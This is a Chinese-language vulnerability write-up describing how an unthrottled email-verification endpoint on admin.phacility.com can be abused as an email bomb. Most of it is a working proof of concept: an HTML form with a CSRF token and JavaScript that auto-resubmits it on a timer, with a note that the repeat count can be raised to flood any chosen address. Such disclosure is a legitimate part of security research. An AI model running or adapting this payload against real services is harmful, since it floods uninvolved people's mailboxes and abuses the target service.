 
api漏洞系列-邮箱验证API接口无限制,可作为邮箱炸弹

## 前言

声明：文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由用户承担全部法律及连带责任，文章作者不承担任何法律及连带责任。

## 漏洞描述
`https://admin.phacility.com/settings/user/toma/page/email/ `中的API接口是无限的，可以用作邮箱炸弹。

## 复现步骤

1.注册用户并等待验证电子邮件地址  <br>
![img_32.png](img_32.png)


2.使用如下:  <br>

```html

<form id="myform" action="https://admin.phacility.com/settings/user/toma/page/email/?verify=14295" method="POST" target="_blank">
  <input type="text" name="__csrf__" value="B@f3wyama2759fcd6f915746da">
  <input type="text" name="__form__" value="1">
  <input type="text" name="__dialog__" value="1">
  <input type="text" name="verify" value="14295">
  <input type="text" name="__submit__" value="true">
  <input type="text" name="__wflow__" value="true">
  <input type="text" name="__ajax__" value="true">
  <input type="text" name="__metablock__" value="3">
</form>
<script>
  function interval(func, wait,  times)
  { 
    var interv = function(w, t){ 
      return function(){
        if(typeof t === "undefined" ||  t-- > 0){ 
          setTimeout(interv, w); 
          try{ 
            func.call(null);
          }  catch(e) {
            t = 0; 
            throw e.toString(); 
          } 
        } 
      }; 
    }(wait, times); 
    setTimeout(interv, wait);
  };//submit every 2000ms,execute 5 times(you can change this number  to execute moretimes)
  interval(
    function(){ document.getElementById("myform").submit(); },
    2000,
    5
  );
</script>

```

其中`__csrf__`是你的token,由于这次邮箱没有经过验证，所以我注册的时候可以写任何邮箱，然后就可以轰炸任何人的邮箱. <br>

![img_33.png](img_33.png)




